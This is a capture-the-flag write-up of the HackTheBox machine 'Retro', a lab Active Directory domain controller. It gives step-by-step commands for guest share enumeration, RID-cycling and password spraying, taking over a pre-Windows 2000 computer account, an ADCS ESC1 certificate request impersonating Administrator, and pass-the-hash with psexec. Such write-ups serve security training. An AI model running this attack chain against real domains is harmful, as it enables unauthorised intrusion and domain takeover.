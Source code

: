 # [HackTheBox - Retro](https://app.hackthebox.com/machines/Retro)
![8c137bf429e00361974c2bae911f72fb.png](/resources/8c137bf429e00361974c2bae911f72fb.png)
## Table of Contents

- [Abstract](#abstract)
- [Enumeration](#enumeration)
- [Obtaining trainee password](#obtaining-trainee-password)
- [Discovery of Pre-Windows 2000 computer account](#discovery-of-pre-windows-2000-computer-account)
- [Discovery of ADCS ESC1](#discovery-of-adcs-esc1)
- [Privilege Escalation with ADCS ESC1](#privilege-escalation-with-adcs-esc1)

***
## Abstract
Retro is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine and no WinRM enabled as well.

On the enumeration phase, I found that guest account is enabled and can be used to access "Trainees" share and in the share reveals that there is one trainee account with weak password on this domain. after retrieving user list with RID-Cycling method, I found that "trainee" account is using its username as password and can be use to access "Notes" shares.

On "Notes" shares has user flag and also a text file implying the existence of Pre2K computer account which I changed its password and discover that domain computers group can enroll a certificate from "RetroClients" certificate template which have ADCS ESC1 misconfiguration.

Leveraging ADCS ESC1,I obtained NTLM of Administrator account and finally root the box with psexec.

## Enumeration
I start with nmap scan without any flag to quickly scan for well-known port which reveals that this machine is a domain controller and does not have any services beside required services for active directory running on this machine and one more thing to notice here is no port 5985 which mean we can not use WinRM to get access to this machine.
![a69c5ccd908178c5dbea1aab27096649.png](/resources/a69c5ccd908178c5dbea1aab27096649.png)

I rerun my scan again with `-sCV` just to find the hostname which I'll add to my `/etc/hosts` file so I won't need to specify IP address if I did not need to.
![21c26216b7e1d024875bce751036852e.png](/resources/21c26216b7e1d024875bce751036852e.png)

Since there is no other service that I could dig it, I start with null session enumeration on SMB and LDAP protocol which I can see that null session could not be used to pull user list or access file share.

![a001c8716d201b1e4ad7cddf382cca62.png](/resources/a001c8716d201b1e4ad7cddf382cca62.png)

But the guest account is enabled and I can use it to list a share which reveals non-standard share with READ access as guest user.
```
uv run nxc smb retro.vl -u 'guest' -p '' --shares
```
![4e6746f403acb466703db95bb9153e61.png](/resources/4e6746f403acb466703db95bb9153e61.png)

Upon connection to this share and list its content, I found `Important.txt` which was left here for "trainees" of the company to read.
```
smbclient \\\\retro.vl\\Trainees -N
```
![dfbe81308130aba74d008b9e4e621ec0.png](/resources/dfbe81308130aba74d008b9e4e621ec0.png)

The content of this file explicitly says that there is one trainee account and since some of trainees struggling with remembering strong and unique passwords then the new password must be easy to guess or you guess it. it would be "user:user" for sure.

![df7f133ddb7fb60291a529259b8b2270.png](/resources/df7f133ddb7fb60291a529259b8b2270.png)

Since guest account is enabled and can connect to shares then I use RID cycling method with NetExec to create user list and I can use this list to conduct password spraying attack when I obtained user password later. and one more thing to notice is the "trainee" so this is the user I want to try to connect to with "user:user" combination.
```
uv run nxc smb retro.vl -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
```
![ad027525635d76d1902325182fbe0678.png](/resources/ad027525635d76d1902325182fbe0678.png)

## Obtaining trainee password
Using NetExec to test "user:user" combination and I got 1 hit as "trainee" user as expected.
```
uv run nxc smb retro.vl -u users -p users --no-bruteforce --continue-on-success
```
![2903cf9e4fa44af4412d84688466a4cd.png](/resources/2903cf9e4fa44af4412d84688466a4cd.png)

Using this credential to enumerate for more shares which I found another share that can be accessed with this user.
```
uv run nxc smb retro.vl -u trainee -p trainee --shares
```
![86ff4c5df88e70aa1a82d6acfb9581d4.png](/resources/86ff4c5df88e70aa1a82d6acfb9581d4.png)

## Discovery of Pre-Windows 2000 computer account
Upon opening this new share and list its content. I discover user flag and `ToDo.txt` file.
```
smbclient \\\\retro.vl\\Notes -U trainee%trainee
```
![9c4eb9ecc2286ecc29eadac9468e2a39.png](/resources/9c4eb9ecc2286ecc29eadac9468e2a39.png)

The content of `ToDo.txt`, I got a clue that there should be a pre-created computer account and that must be pre-Windows 2000 computer (Pre2k).

![bd332d6209e868026555a90b3d7f8d80.png](/resources/bd332d6209e868026555a90b3d7f8d80.png)

NetExec have a module that could be used to retrieve pre-Windows 2000 computer account which I found that "banking$" is one I am looking for.
```
uv run nxc ldap retro.vl -u trainee -p trainee -M pre2k
```
![85cc743dcfbe312568ea27de3730d83d.png](/resources/85cc743dcfbe312568ea27de3730d83d.png)

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $) so in this case, the password should be "banking" and it is confirmed that this password can be used but to be able to fully utilize this account, I will need to change its password first.
```
uv run nxc smb retro.vl -u 'banking$' -p banking
```
![126671f12b30bd2610bb0aabc6c2202e.png](/resources/126671f12b30bd2610bb0aabc6c2202e.png)

I will use impacket-changepasswd to change its password and now I have this account ready to be utilized.
```
impacket-changepasswd retro.vl/banking\$@retro.vl -newpass '12345' -p rpc-samr
uv run nxc smb retro.vl -u 'banking$' -p 12345
```
![9bae8142b2fc3971ff1cc7bc4280337d.png](/resources/9bae8142b2fc3971ff1cc7bc4280337d.png)

## Discovery of ADCS ESC1
I use rusthound-ce to collect domain information which can be used with bloodhound ce and visualization and find out if pre2k computer account can do anything.
```
rusthound-ce -d retro.vl -u trainee@retro.vl -p trainee -z
```
![dcd9df4ef9f9a3d958ded9d094bd1902.png](/resources/dcd9df4ef9f9a3d958ded9d094bd1902.png)

Best thing about rusthound-ce beside how fast it takes to collect domain information is how vast it collect information from the domain which includes certificate template as well and I can see that there is one non-standard certificate template that the domain computers group can enroll and it has "EnrolleeSuppliesSubject" flag set and this mean I can leverage ADCS ESC1 to get ccache and NTLM hash of any user on this domain.

![660441c1f6adc21b0e7fbf99f0fab939.png](/resources/660441c1f6adc21b0e7fbf99f0fab939.png)

I confim ESC1 again with certipy-find module in NetExec (or you can use certipy directly) which reveals that "RetroClients" template have misconfiguration as ESC1.
```
uv run nxc ldap retro.vl -u 'banking$' -p 12345 -M certipy-find
```
![6e5e9b8fc167c9518464898d43a997bd.png](/resources/6e5e9b8fc167c9518464898d43a997bd.png)

## Privilege Escalation with ADCS ESC1
To leverage ADCS ESC1, I use certipy-ad to request certificate of Administrator user first but there is a problem due to the key length.
```
uv run certipy-ad req -u 'banking$' -p '12345' -dc-ip $IP -ca 'retro-DC-CA' -template 'RetroClients' -upn 'Administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500'
```
![470ea8728db469e17e393b654c2735bf.png](/resources/470ea8728db469e17e393b654c2735bf.png)

I go back to certipy-find result again which I can see that I need to specify the key size to have at least 4096 in length.

![384a54e25f33c226a0e775fa2db95475.png](/resources/384a54e25f33c226a0e775fa2db95475.png)

Now after adding `-key-size 4096` to the same command, I get the certificate file of the Administrator user of this domain.
```
certipy req -u 'banking$' -p '12345' -dc-ip $IP -ca 'retro-DC-CA' -template 'RetroClients' -upn 'Administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096
```
![8881f998cc7467fcb3ea6a0acaf26c5f.png](/resources/8881f998cc7467fcb3ea6a0acaf26c5f.png)

Next, I use certipy to authenticate to the domain controller again to automatically retrieve TGT of the Administrator and use that to retrive NTLM hash as well (I revert machine once so the IP changed)
```
certipy auth -pfx administrator.pfx -dc-ip $IP 
```
![691ff79764a88a890e961f0713293a74.png](/resources/691ff79764a88a890e961f0713293a74.png)

Now I can use psexec, wmiexec, smbexec to access the machine as SYSTEM.

```
impacket-psexec 'Administrator@retro.vl' -hashes :252fac7066d93dd009d4fd2cd0368389 -service-name chicken_svc -remote-binary-name powershell.exe
```
![43f8f589b010cec70d38a08d84c02e65.png](/resources/43f8f589b010cec70d38a08d84c02e65.png)

Now I will loot root flag and root the box :D

![0ddbe6ded024cab64cdd30d110f88152.png](/resources/0ddbe6ded024cab64cdd30d110f88152.png)

![31d3b66c57999b2b03986cf102553004.png](/resources/31d3b66c57999b2b03986cf102553004.png)
https://labs.hackthebox.com/achievement/machine/1438364/671
***